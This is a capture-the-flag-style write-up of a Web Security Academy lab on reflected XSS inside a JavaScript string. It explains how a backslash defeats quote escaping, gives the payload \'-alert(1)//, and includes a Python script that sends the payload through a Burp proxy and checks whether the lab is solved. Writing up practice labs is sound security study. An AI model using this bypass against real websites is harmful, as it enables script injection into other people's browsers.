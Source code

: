 ```yaml
---
title: 'XSS Lab 19'
description: 'Reflected XSS into JavaScript string with HTML-encoded brackets/quotes and escaped single quotes'
---
```



## Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

<div style="text-align: justify;">
  This lab demonstrates a reflected cross-site scripting vulnerability where input is placed inside a JavaScript string. Angle brackets (`< >`) and double quotes (`"`) are HTML-encoded, while single quotes (`'`) are escaped with a backslash. By carefully injecting a payload that breaks out of the string using a backslash, an attacker can execute arbitrary JavaScript. The goal is to trigger an `alert(1)` and solve the lab.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The search term is reflected inside a JavaScript string.
- Single quotes are escaped (`\'`), preventing a simple injection.
- By injecting a **backslash** before the quote, you escape the escaping mechanism.
- Payload:  
  ```js
  \'-alert(1)//
  ```
- This payload breaks out of the string, allowing the execution of `alert(1)`.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/?search={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = "\\'-alert(1)//"

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```
